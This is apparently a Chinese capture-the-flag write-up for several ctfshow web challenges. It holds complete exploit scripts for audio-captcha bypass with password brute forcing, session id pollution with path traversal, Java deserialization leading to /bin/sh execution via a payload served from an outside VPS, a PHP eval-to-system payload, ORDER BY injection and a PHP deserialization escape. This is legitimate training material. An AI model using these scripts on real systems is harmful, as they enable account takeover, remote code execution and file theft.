    print("[+] ls / output:\n%s" % root_listing, file=sys.stderr)

    flag_path = pick_flag_path(root_listing)
    print("[+] flag path: %s" % flag_path, file=sys.stderr)

    flag_text = read_file_with_mysql(base_url, shell_name, flag_path)
    match = re.search(r"ctfshow\{[^}]+\}", flag_text)
    if not match:
        raise RuntimeError("flag pattern not found in file content: %r" % flag_text)
    print(match.group(0))
    return 0


if __name__ == "__main__":
    raise SystemExit(main())


## python3 exp.py 'https://7812f072-f60a-43ae-86fa-017215d36921.challenge.ctf.show/'
```

细心的朋友会发现，这里居然是使用的 pwn 的方式去打 UDF，使用的前置条件如下

- MySQL/MariaDB 账号有 FILE 权限，可以 select ... into dumpfile。
- 可以写入 plugin_dir，例如本题是 /usr/lib/mariadb/plugin/。
- 可以执行：create function xxx returns integer soname 'libxxx.so'
- secure_file_priv 不能限制到非插件目录。本题里是空字符串，等于不限制。
- 目标系统是 x86_64 Linux。
- MySQL 进程能执行 /bin/sh，并且没有 AppArmor/SELinux/seccomp 阻止。
- DUMPFILE 目标文件不能已存在，所以 exp 用随机文件名。
- MySQL 服务崩了能自动恢复最好，因为 UDF 写错很容易把 mysqld 打崩。

这个 exp 是 AI 写的，说实话我也觉得很新奇(毕竟只知道写入 hex 的手法






## 简单的验证码 击剑杯

主要是验证码，然后弱口令爆破就可以了，访问 `/login` 后可以看到验证码不是图片，而是一个内联的 MP3：

```html
<source src="data:audio/mp3;base64,..." />
```

把音频 base64 解出来后发现它由多个固定 MP3 片段拼接而成，每个片段都带有原始 XMP 元数据。关键字段是 `CreateDate`，每个数字对应一个固定时间戳，所以不需要语音识别，直接按 `ID3` 分段读元数据即可还原验证码。映射如下：

```python
DATE_TO_DIGIT = {
    "2021-07-07T13:03:57+08:00": "0",
    "2021-07-07T13:05:02+08:00": "1",
    "2021-07-07T13:05:46+08:00": "2",
    "2021-07-07T13:09:33+08:00": "3",
    "2021-07-07T13:06:49+08:00": "4",
    "2021-07-07T13:07:18+08:00": "5",
    "2021-07-07T13:07:43+08:00": "6",
    "2021-07-07T13:08:07+08:00": "7",
    "2021-07-07T13:08:59+08:00": "8",
    "2021-07-07T13:08:34+08:00": "9",
}
```

每次尝试密码时使用独立会话，这样爆破会快些。先 GET `/login` 拿当前 session 的验证码，解析出 `pincode`，再 POST `username=admin&password=...&pincode=...`。脚本如下

```python
#!/usr/bin/env python3
import asyncio
import base64
import re
from pathlib import Path
from urllib.parse import unquote, urljoin

import httpx


TARGET = "https://03b361f3-3aa5-4785-85d3-75bfa2feb5d6.challenge.ctf.show/"
WORDLIST = "密码字典.txt"
USERNAME = "admin"
CONCURRENCY = 64

DATE_TO_DIGIT = {
    "2021-07-07T13:03:57+08:00": "0",
    "2021-07-07T13:05:02+08:00": "1",
    "2021-07-07T13:05:46+08:00": "2",
    "2021-07-07T13:09:33+08:00": "3",
    "2021-07-07T13:06:49+08:00": "4",
    "2021-07-07T13:07:18+08:00": "5",
    "2021-07-07T13:07:43+08:00": "6",
    "2021-07-07T13:08:07+08:00": "7",
    "2021-07-07T13:08:59+08:00": "8",
    "2021-07-07T13:08:34+08:00": "9",
}


def solve_captcha(html: str) -> str:
    b64 = re.search(r'data:audio/mp3;base64,([^\"]+)', html).group(1)
    audio = base64.b64decode(unquote(b64))
    code = []

    for part in re.finditer(rb"ID3", audio):
        chunk = audio[part.start() : part.start() + 6000]
        date = re.search(rb'CreateDate="([^"]+)"', chunk).group(1).decode()
        code.append(DATE_TO_DIGIT[date])

    return "".join(code)


async def try_password(password: str):
    login_url = urljoin(TARGET, "/login")

    async with httpx.AsyncClient(verify=False, follow_redirects=False, timeout=20) as client:
        html = (await client.get(login_url)).text
        captcha = solve_captcha(html)

        resp = await client.post(
            login_url,
            data={"username": USERNAME, "password": password, "pincode": captcha},
        )

        if resp.status_code in (301, 302, 303, 307, 308):
            location = resp.headers.get("location", "")
            if location.rstrip("/").endswith("/login"):
                return None
            resp = await client.get(urljoin(TARGET, location), follow_redirects=True)

        text = resp.text
        flag = re.search(r"(?:flag|ctfshow)\{[^}]+\}", text, re.I)
        if flag:
            return password, captcha, flag.group(0)

        if "用户名或密码错误" not in text and "验证码错误" not in text:
            return password, captcha, text[:300].replace("\n", " ")

        return None


async def main():
    words = [x.strip() for x in Path(WORDLIST).read_text(errors="ignore").splitlines() if x.strip()]
    queue = asyncio.Queue()
    for word in dict.fromkeys(words):
        queue.put_nowait(word)

    tried = 0
    found = asyncio.Event()

    async def worker():
        nonlocal tried
        while not found.is_set():
            try:
                password = queue.get_nowait()
            except asyncio.QueueEmpty:
                return

            try:
                result = await try_password(password)
            except Exception as e:
                result = None
                print(f"[!] {password}: {type(e).__name__}: {e}")

            tried += 1
            if tried % 250 == 0:
                print(f"[*] tried {tried}/{queue.qsize() + tried}")

            if result:
                password, captcha, flag = result
                print("[+] found")
                print(f"username: {USERNAME}")
                print(f"password: {password}")
                print(f"captcha: {captcha}")
                print(f"flag: {flag}")
                found.set()

    await asyncio.gather(*(worker() for _ in range(CONCURRENCY)))
    if not found.is_set():
        print("[-] not found")


if __name__ == "__main__":
    asyncio.run(main())


## python3 exp.py
## admin:young
```


## 简单的数据分析 新手杯

```python
D = random.randint(100, 200)
pData = [numpy.random.random(D)*100,numpy.random.random(D)*100,numpy.random.random(D)*100]

try:
    data = request.form.getlist('data[]')
    data = list(map(float,data))
    data = numpy.array(data)
except:
    msg="数据转换失败"

try:
    distance =[numpy.linalg.norm(A-data) for A in pData]
    avgdist = numpy.mean(numpy.abs(distance - numpy.mean(distance))**2)
    if avgdist<0.001:
        msg= flag
    else:
        msg= f"您的数据与三个聚类中心的欧拉距离分别是<br><br>{distance}均方差为:{avgdist}"
except:
    msg="未提交数据或数据维度有误"
```

？我之前真的这个 python 题目都做不来吗，提交一个位于三个点等距超平面交集上的向量即可

```python
import re
import requests
import urllib3
import numpy as np

urllib3.disable_warnings()

URL = "https://83a3ee4e-100a-4b99-8da3-cfb410c52599.challenge.ctf.show/"
s = requests.Session()
s.verify = False

num = r"[-+]?\d+(?:\.\d+)?(?:[eE][-+]?\d+)?"

def parse(t):
    m = re.search(r"\[([^\]]+)\].*?均方差为\s*:?\s*(" + num + r")", t, re.S)
    if not m:
        return None
    x = m.group(1).replace("np.float64(", "").replace(")", "")
    v = re.findall(num, x)
    return np.array(list(map(float, v[:3]))) if len(v) >= 3 else None

def post(v):
    r = s.post(URL, data=[("data[]", f"{float(i):.17g}") for i in v], timeout=15)
    return r.text

def oracle(v):
    t = post(v)
    return parse(t), t

D = None
r0 = None

for n in range(100, 201):
    d, t = oracle(np.zeros(n))
    if d is not None:
        D, r0 = n, d
        print("D =", D)
        break

if D is None:
    raise Exception("维度爆破失败，检查 URL 或返回内容")

T = 100.0
P = np.zeros((3, D))

for i in range(D):
    v = np.zeros(D)
    v[i] = T
    r, t = oracle(v)
    if r is None:
        raise Exception(f"第 {i} 维失败")
    P[:, i] = (r0 ** 2 + T ** 2 - r ** 2) / (2 * T)
    print(i + 1, "/", D)

A, B, C = P

M = np.vstack([2 * (B - A), 2 * (C - A)])
b = np.array([B @ B - A @ A, C @ C - A @ A])
x = np.linalg.lstsq(M, b, rcond=None)[0]

print("local dist =", [np.linalg.norm(i - x) for i in P])
print(post(x))
```

## blog 单身杯

java 的题目，我记得 25 年初的过年期间我是挑战过的，但是最后以失败告终，现在再来发现当时没做出来不冤

总体思路，先把自己变成 `id=1`，再用头像处的路径越权`..`或者`..;`读取把关键 class 拿下来，最后走后台 `/admin/update` 的反序列化。

注册一个普通用户

```http
POST /user/register HTTP/1.1
Host: 3fd55a59-9faa-4820-860d-681ef0506444.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Connection: close

username=u123456&password=p123456
```

先读登录逻辑，拿 `LoginController.class` 的文件读取包：

```http
GET /avatar/file/../classes/com/ctfshow/controller/LoginController.class HTTP/1.1
Host: 3fd55a59-9faa-4820-860d-681ef0506444.challenge.ctf.show
Cookie: JSESSIONID=<session>
Connection: close
```

反编译后重点是这里：

```java
check = userModel.getUserByUsername(user.getUsername());
if (user.equals(check)) {
    session.setAttribute("isLogin", true);
    session.setAttribute("user", user);
    if (check.getId() == 1) {
        token = UUID.randomUUID().toString().replaceAll("-", "");
        session.setAttribute("token", token);
        session.setAttribute("user", check);
    }
}
```

再拿 `UserEntity.class` 看 `equals()`：

```http
GET /avatar/file/../classes/com/ctfshow/dao/UserEntity.class HTTP/1.1
Host: 3fd55a59-9faa-4820-860d-681ef0506444.challenge.ctf.show
Cookie: JSESSIONID=<session>
Connection: close
```

`equals()` 只比 `username/password`，不比 `id`。所以登录时多带一个 `id=1`，校验照样过，但是 session 里的 `user.id` 被污染成了 1

```http
POST /user/login HTTP/1.1
Host: 3fd55a59-9faa-4820-860d-681ef0506444.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Connection: close

id=1&username=u123456&password=p123456
```

这里记下返回的 `JSESSIONID`，下面叫它 `<polluted-session>`。把污染后的用户写回数据库

`/user/changePassword` 会从 session 取 `user`，改密码后 `saveOrUpdate`。因为 session 里的对象已经是 `id=1`，所以这一步等于覆盖管理员账号：

```java
userEntity = (UserEntity) session.getAttribute("user");
userEntity.setPassword(newPassword);
new UserModel().updateUser(userEntity);
```

Burp 包：

```http
POST /user/changePassword HTTP/1.1
Host: 3fd55a59-9faa-4820-860d-681ef0506444.challenge.ctf.show
Cookie: JSESSIONID=<polluted-session>
Content-Type: application/x-www-form-urlencoded
Connection: close

newPassword=admin123456
```

然后正常登录，不带 `id=1`，这次查出来的真实用户就是 `id=1`，响应里会给后台 token：

```http
POST /user/login HTTP/1.1
Host: 3fd55a59-9faa-4820-860d-681ef0506444.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Connection: close

username=u123456&password=admin123456
```

头像文件读取，先拿 `FileController.class`：

```http
GET /avatar/file/../classes/com/ctfshow/controller/FileController.class HTTP/1.1
Host: 3fd55a59-9faa-4820-860d-681ef0506444.challenge.ctf.show
Cookie: JSESSIONID=<admin-session>
Connection: close
```

反编译后路径拼接很明显：

```java
String value = extractPathFromPattern(request);
Path path = Paths.get(request.getServletContext().getRealPath("/") + "/WEB-INF/static/" + value);
byte[] avatar = Files.readAllBytes(path);
response.getOutputStream().write(avatar);
```

基准目录是 `/usr/local/tomcat/webapps/ROOT/WEB-INF/static/`。读 `WEB-INF/classes/hibernate.cfg.xml` 用这个包：

```http
GET /avatar/file/../classes/hibernate.cfg.xml HTTP/1.1
Host: 3fd55a59-9faa-4820-860d-681ef0506444.challenge.ctf.show
Cookie: JSESSIONID=<admin-session>
Connection: close
```

里面能看到数据库配置：

```xml
<property name="connection.url">jdbc:mysql://localhost:3306/ctfshow?autoReconnect=true</property>
<property name="connection.username">root</property>
<property name="connection.password">root</property>
```

读 Spring 配置也一样：

```http
GET /avatar/file/../applicationContext.xml HTTP/1.1
Host: 3fd55a59-9faa-4820-860d-681ef0506444.challenge.ctf.show
Cookie: JSESSIONID=<admin-session>
Connection: close
```

这里说清楚一点：这题读 `WEB-INF` 里面的文件，直接 `../` 就可以，也可以 `..;`。后台反序列化，拿 `AdminController.class`：

```http
GET /avatar/file/../classes/com/ctfshow/controller/AdminController.class HTTP/1.1
Host: 3fd55a59-9faa-4820-860d-681ef0506444.challenge.ctf.show
Cookie: JSESSIONID=<admin-session>
Connection: close
```

这里就是入口：

```java
URL fileUrl = new URL(url);
ObjectInputStream objectInputStream = new ObjectInputStream(fileUrl.openStream());
objectInputStream.readObject();
```

`UserEntity.readObject()` 又正好能反射调用：

```java
Class.forName(username)
    .getMethod(email, String.class)
    .invoke(
        Class.forName(username).getMethod(password).invoke(Class.forName(username)),
        address
    );
```

所以序列化对象里填这几个字段就能执行命令：

```latex
username = java.lang.Runtime
password = getRuntime
email    = exec
address  = /bin/sh -c <cmd>
```

payload 放到可控 VPS 上，靶机去拉取之后反序列化

```http
POST /admin/update HTTP/1.1
Host: 3fd55a59-9faa-4820-860d-681ef0506444.challenge.ctf.show
Cookie: JSESSIONID=<admin-session>
Content-Type: application/x-www-form-urlencoded
Connection: close

token=<token>&url=http%3A%2F%2F156.239.238.130%3A8000%2Fpayload.bin
```

把回显写入静态文件即可，exp 如下

```python
#!/usr/bin/env python3
import argparse
import base64
import http.server
import re
import socketserver
import ssl
import sys
import threading
import time
import urllib.error
import urllib.parse
import urllib.request
from http.cookiejar import CookieJar


BASE = "https://12b3c34f-b338-401b-9e7c-d2fcf920f35a.challenge.ctf.show"
DEFAULT_PUBLIC_HOST = "156.239.238.130"
DEFAULT_PORT = 8000
PAYLOAD_NAME = "payload.bin"
OUTPUT_NAME = "final_flag.txt"


def java_utf(s):
    data = s.encode("utf-8")
    if len(data) > 0xFFFF:
        raise ValueError("string too long for TC_STRING")
    return len(data).to_bytes(2, "big") + data


def tc_string(s):
    return b"\x74" + java_utf(s)


def build_userentity_payload(command):
    shell_script = base64.b64encode((command + "\n").encode()).decode()
    shell_cmd = f"/bin/sh -c echo${{IFS}}{shell_script}|base64${{IFS}}-d|sh"

    out = bytearray()
    out += b"\xac\xed\x00\x05"  # stream magic/version
    out += b"\x73"  # TC_OBJECT
    out += b"\x72"  # TC_CLASSDESC
    out += java_utf("com.ctfshow.dao.UserEntity")
    out += (1).to_bytes(8, "big")  # serialVersionUID
    out += b"\x02"  # SC_SERIALIZABLE
    out += (5).to_bytes(2, "big")
    out += b"I" + java_utf("id")
    out += b"L" + java_utf("address") + b"\x74" + java_utf("Ljava/lang/String;")
    out += b"L" + java_utf("email") + b"\x71\x00\x7e\x00\x01"
    out += b"L" + java_utf("password") + b"\x71\x00\x7e\x00\x01"
    out += b"L" + java_utf("username") + b"\x71\x00\x7e\x00\x01"
    out += b"\x78"  # TC_ENDBLOCKDATA
    out += b"\x70"  # TC_NULL, no superclass
    out += (0).to_bytes(4, "big", signed=True)
    out += tc_string(shell_cmd)
    out += tc_string("exec")
    out += tc_string("getRuntime")
    out += tc_string("java.lang.Runtime")
    return bytes(out)


class QuietHandler(http.server.SimpleHTTPRequestHandler):
    def log_message(self, fmt, *args):
        print("[http] " + fmt % args)


class ReusableTCPServer(socketserver.TCPServer):
    allow_reuse_address = True


def start_http_server(port):
    last_error = None
    for candidate in range(port, port + 20):
        try:
            httpd = ReusableTCPServer(("0.0.0.0", candidate), QuietHandler)
            t = threading.Thread(target=httpd.serve_forever, daemon=True)
            t.start()
            return httpd, candidate
        except OSError as e:
            last_error = e
    raise last_error


class Client:
    def __init__(self):
        self.cookies = CookieJar()
        self.ctx = ssl._create_unverified_context()
        self.opener = urllib.request.build_opener(
            urllib.request.HTTPCookieProcessor(self.cookies),
            urllib.request.HTTPSHandler(context=self.ctx),
        )

    def post(self, path, data, timeout=15):
        body = urllib.parse.urlencode(data).encode()
        req = urllib.request.Request(
            BASE + path,
            data=body,
            headers={"Content-Type": "application/x-www-form-urlencoded"},
            method="POST",
        )
        try:
            with self.opener.open(req, timeout=timeout) as r:
                return r.read().decode("utf-8", "replace")
        except urllib.error.HTTPError as e:
            return e.read().decode("utf-8", "replace")

    def get(self, path, timeout=15):
        req = urllib.request.Request(BASE + path, method="GET")
        try:
            with self.opener.open(req, timeout=timeout) as r:
                return r.read().decode("utf-8", "replace")
        except urllib.error.HTTPError as e:
            return e.read().decode("utf-8", "replace")


def main():
    parser = argparse.ArgumentParser(description="ctfshow blog one-shot exp")
    parser.add_argument("--public-host", default=DEFAULT_PUBLIC_HOST, help="VPS public IP/domain reachable by target")
    parser.add_argument("--port", type=int, default=DEFAULT_PORT, help="HTTP payload server port")
    args = parser.parse_args()

    cmd = f"cat /f* > /usr/local/tomcat/webapps/ROOT/WEB-INF/static/img/{OUTPUT_NAME} 2>&1"
    payload = build_userentity_payload(cmd)
    with open(PAYLOAD_NAME, "wb") as f:
        f.write(payload)
    print(f"[+] wrote {PAYLOAD_NAME}, {len(payload)} bytes")

    httpd, listen_port = start_http_server(args.port)
    payload_url = f"http://{args.public_host}:{listen_port}/{PAYLOAD_NAME}"
    print(f"[+] payload server: {payload_url}")

    user = f"u{int(time.time())}"
    old_pass = "p123456"
    new_pass = "admin123456"

    try:
        c = Client()
        c.post("/user/register", {"username": user, "password": old_pass})
        print(f"[+] registered {user}")

        c.post("/user/login", {"id": "1", "username": user, "password": old_pass})
        print("[+] polluted session user.id = 1")

        c.post("/user/changePassword", {"newPassword": new_pass})
        print("[+] overwrote id=1 account password")

        admin = Client()
        login_text = admin.post("/user/login", {"username": user, "password": new_pass})
        m = re.search(r"token:([0-9a-f]{32})", login_text)
        if not m:
            print("[-] token not found")
            print(login_text[:500])
            return 1
        token = m.group(1)
        print(f"[+] token = {token}")

        update_text = admin.post("/admin/update", {"token": token, "url": payload_url}, timeout=25)
        if "更新成功" not in update_text:
            print("[-] update did not return success")
            print(update_text[:800])
            return 1
        print("[+] deserialization triggered")

        time.sleep(1)
        flag = admin.get(f"/avatar/file/img/{OUTPUT_NAME}").strip()
        print("[+] flag:")
        print(flag)
        return 0
    finally:
        httpd.shutdown()


if __name__ == "__main__":
    sys.exit(main())


## python3 exp.py --public-host 156.239.238.130 --port 8000
```


## badhack roarctf2020

```php
<?php
highlight_file(__FILE__);
class info
{
    public $opcode;
    public $rax;
    public $rbx;
    public $tmp;
    public $flag;
}

$stack = NULL;
$opcode = array(893, 192, 9, 966, 64, 129, 573, 129, 2, 454, 193, 66, 573, 130, 7, 710, 66, 131, 445, 131, 8, 966, 131, 4, 701, 68, 6, 710, 196, 69, 893, 133, 9, 966, 197, 6, 573, 6, 11, 710, 198, 199, 445, 71, 10, 966, 135, 136, 573, 200, 4, 454, 8, 137, 829, 137, 11, 198, 201, 10, 957, 138, 12, 710, 74, 11, 701, 203, 4, 710, 139, 76, 829, 76, 7, 454, 204, 205, 445, 141, 7, 454, 77, 78, 573, 142, 10, 966, 142, 79, 765, 207, 4, 454, 207, 208, 701, 16, 3, 454, 208, 145, 509, 17, 9, 454, 145, 146, 1021, 82, 4, 966, 82, 83, 765, 147, 6, 966, 147, 212, 829, 84, 3, 198, 148, 149, 957, 213, 12, 454, 149, 86, 765, 22, 11, 454, 214, 215, 637, 87, 13, 198, 215, 88, 893, 152, 4, 198, 216, 89, 445, 217, 10, 966, 153, 218, 317, 218, 7, 710, 154, 155, 701, 155, 7, 710, 155, 92, 701, 156, 2, 966, 220, 93, 381, 157, 6, 454, 157, 94, 573, 222, 6, 454, 158, 223, 637, 223, 12, 966, 95, 96, 317, 96, 9, 710, 160, 97, 893, 33, 14, 454, 161, 226, 765, 226, 7, 454, 98, 35, 381, 99, 8, 710, 99, 228, 317, 164, 11, 710, 228, 165, 253, 37, 13, 966, 229, 230, 253, 166, 14, 710, 38, 39, 1021, 167, 12, 966, 103, 168, 957, 40, 4, 710, 168, 105, 701, 105, 7, 966, 105, 128, 701, 128, 13, 454, 64, 193, 509, 65, 8, 966, 193, 66, 637, 130, 12, 966, 194, 67, 317, 3, 10, 710, 131, 4, 1021, 68, 3, 966, 196, 133, 957, 5, 9, 710, 197, 134, 957, 6, 5, 966, 134, 71, 957, 7, 12, 710, 135, 136, 253, 136, 13, 454, 72, 137, 637, 73, 11, 454, 9, 10, 317, 202, 12, 710, 74, 11, 445, 139, 7, 966, 75, 204, 381, 204, 6, 454, 76, 205, 701, 77, 10, 198, 13, 14, 573, 14, 8, 710, 78, 15, 253, 79, 9, 710, 143, 80, 957, 208, 13, 966, 16, 145, 253, 17, 8, 454, 81, 82, 445, 18, 5, 710, 210, 147, 573, 147, 10, 198, 147, 84, 957, 84, 7, 454, 148, 213, 445, 149, 13, 454, 21, 214, 573, 150, 4, 710, 86, 87, 701, 215, 13, 454, 215, 24, 317, 152, 2, 454, 216, 153, 637, 89, 12, 454, 153, 154, 829, 218, 10, 710, 90, 155, 957, 91, 12, 198, 27, 92, 893, 92, 9, 454, 220, 93, 829, 221, 7, 454, 29, 158, 381, 222, 14, 710, 158, 95, 509, 159, 5, 454, 223, 224, 381, 224, 11, 710, 224, 33, 1021, 225, 7, 198, 161, 98, 573, 162, 13, 966, 98, 99, 509, 99, 7, 454, 163, 228, 509, 228, 13, 710, 36, 37, 573, 293, 11, 966, 165, 230, 381, 230, 5, 710, 166, 167, 957, 167, 14, 454, 39, 104, 317, 104, 6, 198, 40, 233, 637, 233, 10, 966, 233, 64, 999, 56, 78 );
$idx = 0;
function JudgeControl($op)
{
    global $idx;
    if($op->opcode == 999)
    {
        return 9;
    }
    if($idx == 6 && $op->flag == 0)
    {
        $op->rbx = 3;
        $idx = 0;
        return 7;
    }
    else if($idx == 6 && $op->flag != 0)
    {
        $idx = 2;
        return $idx;
    }
    else
    {
        while((($op->opcode >> $idx) & 1) == 0)
            $idx ++;
        return $idx;
    }
}
$PC = 0;
$code = new info();
$code->opcode = $opcode[$PC];
$code->rax = $opcode[$PC + 1];
$code->rbx = $opcode[$PC + 2];
$code->tmp = $opcode[$PC + 1];
$code->flag = 1;
$cmd = $_GET['cmd'];
if(!is_array($cmd) || sizeof($cmd) !== 42){
        die('you are not bond 007');
}
$input = $cmd;
$flag = 0;
while(TRUE)
{
    if($flag == 1)
    {
        echo "flag: ".$flag;
        break;
    }
    $p = JudgeControl($code, $idx);
    echo "idx:".$idx."\n";
    echo "opcode: ".$code->opcode."\n";
    echo "p: ".$p."\n";
    if($p == 8) break;
    switch($p)
    {
        case 0:
            $code->rax = $input[$code->rax % 64];
            break;
        case 1:
            $code->rax = $input[$code->rax % 64];
            $code->rbx = $input[$code->rbx % 64];
            break;
        case 2:
            $stack = $code->rax ^ $code->rbx;
            break;
        case 3:
            $code->rbx = $code->rax & $code->rbx;
            break;
        case 4:
            $code->rbx = $code->rbx << 1;
            $code->flag = $code->rbx;
            break;
        case 5:
            $code->rax = $stack;
        case 6:
            $code->rax = $stack;
            $input[$code->tmp % 64] = $code->rax % 256;
            break;
        case 7:
            $PC += 3;
            $code->opcode = $opcode[$PC];
            $code->rax = $opcode[$PC + 1];
            $code->rbx = $opcode[$PC + 2];
            $code->tmp = $opcode[$PC + 1];
            $code->flag = 1;
            $idx = -1;
            break;
        case 9:
            $flag = 1;
            break;
        default :
            break;
    }
    $idx ++;
}
$cmd = "";
foreach ($input as $s) {
        $cmd .= chr($s);
}
@eval($cmd);
?>
you are not bond 007
```

最后会把 42 个元素拼成 PHP 代码并 `eval`。传 42 个 `cmd[]` 数字，让虚拟机跑完后把它们变成

```plain
system($_GET[1]);
```

构造脚本如下

```python
from urllib.parse import quote_plus

TARGET = "https://e11bf446-6f10-4d6c-950d-a39e0ace1ac6.challenge.ctf.show/bond007.php"
RUN_CMD = "cat /flag"

cmd = [
    50, 30, 97, 88, 47, 24, 116, 76, 70, 114, 103, 17, 62, 35,
    29, 87, 126, 134, 160, 179, 133, 238, 183, 184, 155, 212,
    179, 227, 169, 196, 146, 231, 94, 245, 190, 33, 248, 251,
    45, 43, 2, 101
]

sep = "&" if "?" in TARGET else "?"
payload = f"1={quote_plus(RUN_CMD)}&" + "&".join(f"cmd%5B%5D={x}" for x in cmd)
url = TARGET + sep + payload

print(url)
print()
```

## CTFshow web1 webBasic

```php
<?php
	
	if(isset($_SESSION["login"]) && $_SESSION["login"] === true){
		$con = mysqli_connect("localhost","root","root","web15");
        if (!$con)
        {
            die('Could not connect: ' . mysqli_error());
        }
		$order=$_GET['order'];
		if(isset($order) && strlen($order)<6){
			if(preg_match("/group|union|select|from|or|and|regexp|substr|like|create|drop|\,|\`|\~|\!|\@|\#|\%|\^|\&|\*|\(|\)|\（|\）|\-|\_|\+|\=|\{|\}|\[|\]|\;|\:|\'|\’|\“|\"|\<|\>|\?|\,|\.|\?/i",$order)){
				die("error");
			}
			$sql="select * from user order by $order";
        }else{
            $sql="select * from user order by id";
        }   

?>
```

注册登录之后页面回显



order by 注入直接打

```python
#!/usr/bin/env python3
import asyncio
import sys
import time

import httpx


BASE = "https://390d32c0-0a26-46c8-8b53-6ece1cdf2d53.challenge.ctf.show/"
MARK = "flag_is_my_password"
HEX = "0123456789abcdef"
HYPHENS = {8, 13, 18, 23}


async def request(client, method, path, **kwargs):
    last = None
    for i in range(3):
        try:
            r = await client.request(method, path, **kwargs)
            if r.status_code < 500:
                return r
            last = RuntimeError(f"HTTP {r.status_code}")
        except httpx.HTTPError as e:
            last = e
        await asyncio.sleep(0.2 * (i + 1))
    raise last


async def register(client, username, password):
    await request(
        client,
        "POST",
        "reg.php",
        data={
            "username": username,
            "password": password,
            "email": f"{username}@a.cc",
            "nickname": username,
        },
    )


async def login(client, username, password):
    r = await request(
        client,
        "POST",
        "login.php",
        data={"username": username, "password": password},
    )
    return r.headers.get("location", "")


async def leak_char(client, run_id, prefix, pos):
    markers = []
    for i, ch in enumerate(HEX):
        username = f"m{run_id}p{pos:02d}c{i:02d}"
        markers.append((username, ch))

    await asyncio.gather(
        *(register(client, username, prefix + ch) for username, ch in markers)
    )

    html = (await request(client, "GET", "user_main.php", params={"order": "pwd"})).text
    flag_pos = html.index(MARK)

    before = []
    for username, ch in markers:
        marker_pos = html.find(f"<td>{username}</td>")
        if 0 <= marker_pos < flag_pos:
            before.append((marker_pos, ch))

    if not before:
        raise RuntimeError("no marker before flag")
    return max(before)[1]


async def main():
    async with httpx.AsyncClient(
        base_url=BASE,
        verify=False,
        follow_redirects=False,
        timeout=20,
        limits=httpx.Limits(max_connections=24, max_keepalive_connections=24),
        headers={"User-Agent": "ctfshow-exp"},
    ) as client:
        run_id = str(int(time.time() * 1000))[-10:]
        user = "u" + run_id
        pwd = "e10adc3949ba59abbe56e057f20f883e"

        await register(client, user, pwd)
        await login(client, user, pwd)

        r = await request(client, "GET", "user_main.php", params={"order": "id"})
        if MARK not in r.text:
            raise RuntimeError("login failed")

        prefix = "ctfshow{"

        for pos in range(36):
            ch = "-" if pos in HYPHENS else await leak_char(client, run_id, prefix, pos)
            prefix += ch

        flag = prefix + "}"
        if "user_main.php" not in await login(client, "flag", flag):
            raise RuntimeError("leaked flag check failed")
        print(flag)


if __name__ == "__main__":
    try:
        asyncio.run(main())
    except Exception as e:
        print(f"\n[-] {e}", file=sys.stderr)
        sys.exit(1)
```

## game-gyctf web2 webBasic

update.php，告知了 flag 的位置

```php
<?php
require_once('lib.php');
echo '<html>
<meta charset="utf-8">
<title>update</title>
<h2>这是一个未完成的页面，上线时建议删除本页面</h2>
</html>';
if ($_SESSION['login']!=1){
	echo "你还没有登陆呢！";
}
$users=new User();
$users->update();
if($_SESSION['login']===1){
	require_once("flag.php");
	echo $flag;
}

?>
```

lib.php

```php
<?php
error_reporting(0);
session_start();
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
class User
{
    public $id;
    public $age=null;
    public $nickname=null;
    public function login() {
        if(isset($_POST['username'])&&isset($_POST['password'])){
        $mysqli=new dbCtrl();
        $this->id=$mysqli->login('select id,password from user where username=?');
        if($this->id){
        $_SESSION['id']=$this->id;  
        $_SESSION['login']=1;
        echo "你的ID是".$_SESSION['id'];
        echo "你好！".$_SESSION['token'];
        echo "<script>window.location.href='./update.php'</script>";
        return $this->id;
        }
    }
}
    public function update(){
        $Info=unserialize($this->getNewinfo());
        $age=$Info->age;
        $nickname=$Info->nickname;
        $updateAction=new UpdateHelper($_SESSION['id'],$Info,"update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
        //这个功能还没有写完 先占坑
    }
    public function getNewInfo(){
        $age=$_POST['age'];
        $nickname=$_POST['nickname'];
        return safe(serialize(new Info($age,$nickname)));
    }
    public function __destruct(){
        return file_get_contents($this->nickname);//危
    }
    public function __toString()
    {
        $this->nickname->update($this->age);
        return "0-0";
    }
}
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
    public function __construct($age,$nickname){
        $this->age=$age;
        $this->nickname=$nickname;
    }   
    public function __call($name,$argument){
        echo $this->CtrlCase->login($argument[0]);
    }
}
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;
    public function __construct($newInfo,$sql){
        $newInfo=unserialize($newInfo);
        $upDate=new dbCtrl();
    }
    public function __destruct()
    {
        echo $this->sql;
    }
}
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="noob123";
    public $dbpass="noob123";
    public $database="noob123";
    public $name;
    public $password;
    public $mysqli;
    public $token;
    public function __construct()
    {
        $this->name=$_POST['username'];
        $this->password=$_POST['password'];
        $this->token=$_SESSION['token'];
    }
    public function login($sql)
    {
        $this->mysqli=new mysqli($this->hostname, $this->dbuser, $this->dbpass, $this->database);
        if ($this->mysqli->connect_error) {
            die("连接失败，错误:" . $this->mysqli->connect_error);
        }
        $result=$this->mysqli->prepare($sql);
        $result->bind_param('s', $this->name);
        $result->execute();
        $result->bind_result($idResult, $passwordResult);
        $result->fetch();
        $result->close();
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
        return $idResult;
    }
    public function update($sql)
    {
        //还没来得及写
    }
}
```

php 反序列化逃逸，

```php
<?php
class User {
    public $id;
    public $age = null;
    public $nickname = null;
}

class Info {
    public $age;
    public $nickname;
    public $CtrlCase;

    public function __construct($age = null, $nickname = null) {
        $this->age = $age;
        $this->nickname = $nickname;
    }
}

class dbCtrl {
    public $name;
    public $password;
    public $token;
}

$db = new dbCtrl();
$db->name = "x";
$db->password = "x";
$db->token = "admin";

$info = new Info();
$info->CtrlCase = $db;

$user = new User();
$user->age = "select LOAD_FILE(0x2f7661722f7777772f68746d6c2f666c61672e706870),?";
$user->nickname = $info;

$inject = '";s:3:"age";' . serialize($user) . 's:8:"nickname";s:1:"x";}';

